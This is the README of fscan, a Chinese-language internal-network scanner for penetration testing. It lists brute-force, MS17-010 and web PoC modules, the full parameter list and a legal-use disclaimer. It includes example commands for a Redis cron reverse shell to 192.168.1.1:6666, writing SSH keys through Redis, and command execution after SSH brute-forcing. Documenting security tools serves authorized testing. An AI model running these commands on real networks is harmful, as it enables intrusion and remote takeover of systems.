







# fscan

# 简介
一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。   
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

## 主要功能
1.信息搜集:
* 存活探测(icmp)
* 端口扫描

2.爆破功能:
* 各类服务爆破(ssh、smb等)
* 数据库密码爆破(mysql、mssql、redis、psql等)  

3.系统信息、漏洞扫描:  
* netbios探测、域控识别  
* 获取目标网卡信息
* 高危漏洞扫描(ms17010等)  

4.Web探测功能:
* webtitle探测
* web指纹识别(常见cms、oa框架等)
* web漏洞扫描(weblogic、st2等,支持xray的poc)

5.漏洞利用:
* redis写公钥或写计划任务
* ssh命令执行

6.其他功能:
* 文件保存

## usege
简单用法
``` 
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
```

其他用法
```
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
```
编译命令
```
go build -ldflags="-s -w " -trimpath
```

完整参数
```
   -Num int
        poc rate (default 20)
  -c string
        exec command (ssh)
  -cookie string
        set poc cookie
  -debug
        debug mode will print more error info
  -domain string
        smb domain
  -h string
        IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        host file, -hs ip.txt
  -m string
        Select scan type ,as: -m ssh (default "all")
  -no
        not to save output log
  -nopoc
        not to scan web vul
  -np
        not to ping
  -o string
        Outputfile (default "result.txt")
  -p string
        Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,443,445,1433,3306,5432,6379,7001,8000,8080,8089,9200,11211,270179098,9448,8888,82,8858,1081,8879,21502,9097,8088,8090,8200,91,1080,889,8834,8011,9986,9043,9988,7080,10000,9089,8028,9999,8001,89,8086,8244,9000,2008,8080,7000,8030,8983,8096,8288,18080,8020,8848,808,8099,6868,18088,10004,8443,8042,7008,8161,7001,1082,8095,8087,8880,9096,7074,8044,8048,9087,10008,2020,8003,8069,20000,7688,1010,8092,8484,6648,9100,21501,8009,8360,9060,85,99,8000,9085,9998,8172,8899,9084,9010,9082,10010,7005,12018,87,7004,18004,8098,18098,8002,3505,8018,3000,9094,83,8108,1118,8016,20720,90,8046,9443,8091,7002,8868,8010,18082,8222,7088,8448,18090,3008,12443,9001,9093,7003,8101,14000,7687,8094,9002,8082,9081,8300,9086,8081,8089,8006,443,7007,7777,1888,9090,9095,81,1000,18002,8800,84,9088,7071,7070,8038,9091,8258,9008,9083,16080,88,8085,801,5555,7680,800,8180,9800,10002,18000,18008,98,28018,86,9092,8881,8100,8012,8084,8989,6080,7078,18001,8093,8053,8070,8280,880,92,9099,8181,9981,8060,8004,8083,10001,8097,21000,80,7200,888,7890,3128,8838,8008,8118,9080,2100,7180,9200")
  -ping
        using ping replace icmp
  -pocname string
        use the pocs these contain pocname, -pocname weblogic
  -proxy string
        set poc proxy, -proxy http://127.0.0.1:8080
  -pwd string
        password
  -pwdf string
        password file
  -rf string
        redis file to write sshkey file (as: -rf id_rsa.pub)
  -rs string
        redis shell to write cron file (as: -rs 192.168.1.1:6666)
  -t int
        Thread nums (default 600)
  -time int
        Set timeout (default 3)
  -u string
        url
  -uf string
        urlfile
  -user string
        username
  -userf string
        username file
  -wt int
        Set web timeout (default 5)
```

## 运行截图

`fscan.exe -h 192.168.x.x  (全功能、ms17010、读取网卡信息)`




`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写公钥)`


`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`


`fscan.exe -h 192.168.x.x -p80 -proxy http://127.0.0.1:8080 一键支持xray的poc`


`fscan.exe -h 192.168.x.x -p 139 (netbios探测、域控识别,下图的[+]DC代表域控)`


`go run .\main.go -h 192.168.x.x/24 -m netbios(-m netbios时,才会显示完整的netbios信息)`


## 参考链接
https://github.com/Adminisme/ServerScan  
https://github.com/netxfly/x-crack  
https://github.com/hack2fun/Gscan  
https://github.com/k8gege/LadonGo   
https://github.com/jjf012/gopoc


# 404StarLink 2.0 - Galaxy


fscan 是 404Team [星链计划2.0](https://github.com/knownsec/404StarLink2.0-Galaxy) 中的一环，如果对fscan 有任何疑问又或是想要找小伙伴交流，可以参考星链计划的加群方式。

- [https://github.com/knownsec/404StarLink2.0-Galaxy#community](https://github.com/knownsec/404StarLink2.0-Galaxy#community)


## Star Chart
[](https://starchart.cc/shadow1ng/fscan)

## 免责声明

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

为避免被恶意使用，本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描。**

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。
除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

## 最近更新
[+] 2021/6/18 改善一下poc的机制，如果识别出指纹会根据指纹信息发送poc，如果没有识别到指纹才会把所有poc打一遍  
[+] 2021/5/29 加入fcgi协议未授权命令执行扫描,优化poc模块,优化icmp模块,ssh模块加入私钥连接  
[+] 2021/5/15 新增win03版本(删减了xray_poc模块),增加-silent 静默扫描模式,添加web指纹,修复netbios模块数组越界,添加一个CheckErrs字典,webtitle 增加gzip解码  
[+] 2021/5/6 更新mod库、poc、指纹。修改线程处理机制、netbios探测、域控识别模块、webtitle编码模块等  
[+] 2021/4/22 修改webtitle模块,加入gbk解码  
[+] 2021/4/21 加入netbios探测、域控识别  
[+] 2021/3/4 支持-u url或者-uf url.txt,对url进行批量扫描  
[+] 2021/2/25 修改yaml解析模块,支持密码爆破,如tomcat弱口令。yaml中新增sets参数,类型为数组,用于存放密码,具体看tomcat-manager-week.yaml  
[+] 2021/2/8 增加指纹识别功能,可识别常见CMS、框架,如致远OA、通达OA等。  
[+] 2021/2/5 修改icmp发包模式,更适合大规模探测。   
修改报错提示,-debug时,如果10秒内没有新的进展,每隔10秒就会打印一下当前进度    
[+] 2020/12/12 已加入yaml解析引擎,支持xray的Poc,默认使用所有Poc(已对xray的poc进行了筛选),可以使用-pocname weblogic,只使用某种或某个poc。需要go版本1.16以上,只能自行编译最新版go来进行测试    
[+] 2020/12/6 优化icmp模块,新增-domain 参数(用于smb爆破模块,适用于域用户)  
[+] 2020/12/03 优化ip段处理模块、icmp、端口扫描模块。新增支持192.168.1.1-192.168.255.255。  
[+] 2020/11/17 增加-ping 参数,作用是存活探测模块用ping代替icmp发包。   
[+] 2020/11/17 增加WebScan模块,新增shiro简单识别。https访问时,跳过证书认证。将服务模块和web模块的超时分开,增加-wt 参数(WebTimeout)。    
[+] 2020/11/16 对icmp模块进行优化,增加-it 参数(IcmpThreads),默认11000,适合扫B段  
[+] 2020/11/15 支持ip以文件导入,-hs ip.txt,并对去重做了处理
